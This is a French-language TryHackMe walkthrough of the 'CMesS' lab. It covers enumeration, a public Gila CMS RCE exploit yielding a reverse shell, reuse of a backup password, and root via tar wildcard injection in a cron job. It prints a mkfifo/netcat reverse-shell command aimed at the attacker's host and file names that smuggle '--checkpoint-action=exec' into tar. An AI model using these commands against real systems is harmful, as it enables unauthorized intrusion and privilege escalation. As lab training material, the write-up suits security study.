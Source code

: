 # THM CMesS
De l'exploit, de l'énumération, de la recherche. Une bonne room sympatoche !

IP : 10.10.41.234

# Enum
## Nmap:
```nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-10 09:20 EST
Nmap scan report for 10.10.41.234
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.89 seconds
```
2 ports ouverts, le port ssh et un port 80 qui indique un serveur web.
## subdomain enumeration :
```
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                                                                                                          

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
```
Je retrouve donc ici un subdomain dev.cmess.thm

Une fois ajouter dans le fichier hosts, on retrouve bien une page derrière avec des informations utiles !
```
Development Log
andre@cmess.thm

Have you guys fixed the bug that was found on live?
support@cmess.thm

Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!
support@cmess.thm

Update! We have had to delay the patch due to unforeseen circumstances
andre@cmess.thm

That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.
support@cmess.thm

Your password has been reset. Here: ***********
```

On a donc le compte pour acceder a l'admin panel
Compte :

```
andre@cmess.thm
**************
```
# RCE
La version de Gila est la 1.10.9, celle-ci est vulnérable et une RCE est exploitable. 

L'exploit ce trouve ici: https://www.exploit-db.com/exploits/51569

```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/CMesS]
└─$ python3 51569.py

 ██████╗ ██╗██╗      █████╗      ██████╗███╗   ███╗███████╗    ██████╗  ██████╗███████╗                                                                                         
██╔════╝ ██║██║     ██╔══██╗    ██╔════╝████╗ ████║██╔════╝    ██╔══██╗██╔════╝██╔════╝                                                                                         
██║  ███╗██║██║     ███████║    ██║     ██╔████╔██║███████╗    ██████╔╝██║     █████╗                                                                                           
██║   ██║██║██║     ██╔══██║    ██║     ██║╚██╔╝██║╚════██║    ██╔══██╗██║     ██╔══╝                                                                                           
╚██████╔╝██║███████╗██║  ██║    ╚██████╗██║ ╚═╝ ██║███████║    ██║  ██║╚██████╗███████╗                                                                                         
 ╚═════╝ ╚═╝╚══════╝╚═╝  ╚═╝     ╚═════╝╚═╝     ╚═╝╚══════╝    ╚═╝  ╚═╝ ╚═════╝╚══════╝                                                                                         
                                                                                                                                                                                
                              by Unknown_Exploit                                                                                                                                
                                                                                                                                                                                
Enter the target login URL (e.g., http://example.com/admin/): http://cmess.thm/admin
Enter the email: andre@cmess.thm
Enter the password: ***********
Enter the local IP (LHOST): {MON IP}
Enter the local port (LPORT): 4444
File uploaded successfully.
```
Et nous voila avec un revshell 
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444                 
listening on [any] 4444 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.41.234] 36216
bash: cannot set terminal process group (725): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cmess:/var/www/html/tmp$
```

# Privesc
On farfouillant un peu on retrouve dans le dossier /opt un fichier intéressant
```
www-data@cmess:/$ cd /opt
www-data@cmess:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
www-data@cmess:/opt$ cat .password.bak 
andres backup password
UQf*******
```
Nous voila désormais connecter en tant qu'andre 
```
www-data@cmess:/opt$ su andre
Password: 
andre@cmess:/opt$ 
```
On trouve le 1er flag dans le home de andre :
```
andre@cmess:~$ cat user.txt 
thm{c52**************************}
```
# Privesc to root !
J'importe LSE *(Linux Smart Enumeration)* et l'execute. Il trouve quelque chose d'intéressant dans les taches cron :
```
[!] ret060 Can we write to executable paths present in cron jobs........... yes!
---
/etc/crontab:*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
Dans le dossier backup, on retrouve une fichier note qui indique :
```
andre@cmess:~/backup$ cat note 
Note to self.
Anything in here will be backed up!
```
On va donc utiliser les checkpoints de **tar** pour executer un shell.

Voici la marche à suivre:

1) On créer le shell
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MON IP} 1234 >/tmp/f" > shell.sh
```
2) On configurer les checkpoint
```
touch -- --checkpoint=1
touch -- "--checkpoint-action=exec=sh shell.sh"
```
3) On ouvre un listener sur notre machine
```
nc -lnvp 1234
```
4) On attend que la tache cron s'execute .
Et nous voila root
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                       
listening on [any] 1234 ...
connect to [{MON IP}] from (UNKNOWN) [10.10.41.234] 39532
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
Le flag est toujours au même endroit
```
# cat /root/root.txt    
thm{9f****************************}
```
